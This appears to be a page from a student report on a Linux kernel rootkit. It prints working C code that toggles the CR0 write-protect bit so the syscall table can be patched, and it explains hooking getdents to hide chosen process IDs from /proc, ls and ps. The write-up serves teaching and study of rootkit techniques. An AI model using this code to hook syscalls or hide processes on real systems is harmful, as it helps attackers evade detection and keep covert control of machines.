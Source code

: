 \documentclass[10pt, letterpaper]{scrartcl}
\begin{document}
\texttt{Disabling and enabling write protection}: 
We cannot just modify the system call table since it is write protected. 
For this, we found a mechanism to disable the write protection for the whole processor, 
using assembly code and enable it back after modification.

\begin{verbatim}
static void disable_page_protection(void) {

    unsigned long value;
    asm volatile("mov %%cr0,%0" : "=r" (value));
    if (value & 0x00010000) {
            value &= ~0x00010000;
            asm volatile("mov %0,%%cr0": : "r" (value));
    }
}

static void enable_page_protection(void) {

    unsigned long value;
    asm volatile("mov %%cr0,%0" : "=r" (value));
    if (!(value & 0x00010000)) {
            value |= 0x00010000;
            asm volatile("mov %0,%%cr0": : "r" (value));
    }
}
\end{verbatim}

As you can notice in the code, \texttt{cr0} is a control register, 
The 16th bit controls page protection enforcement: 
toggling this bit turns of the write protection for the complete processor.
We can do this in kernel space, because the code is executed at privilege level (ring) 0. 

\subsection{Process hiding}
The task was to hide process ids, which user enters when inserting the module. 
To check the processes, we can do \texttt{ls} on \texttt{/proc} directory. 
\texttt{ps} also does an \texttt{ls} on \texttt{/proc} folder.   
\texttt{strace} on \texttt{ls} gave us that, it calls getndents and reads each linux\_dirent structures. 
\texttt{d\_reclen} is the length of each structure. 

\begin{verbatim}
int getdents(unsigned int fd, struct linux\_dirent *dirp,
                    unsigned int count);
\end{verbatim}


So to do this we hook \texttt{getdents} system call. 
We first compare if \texttt{fd} matches \texttt{/proc} folder. 
If it matches, then iterate over each entry in the directory.
dirp->d\_name is the name of each entry inside the folder. 
So we first need to convert this char entry to integer and compare with the pid which we want to hide.
If it matches, then we delete the entry. 
\end{document}
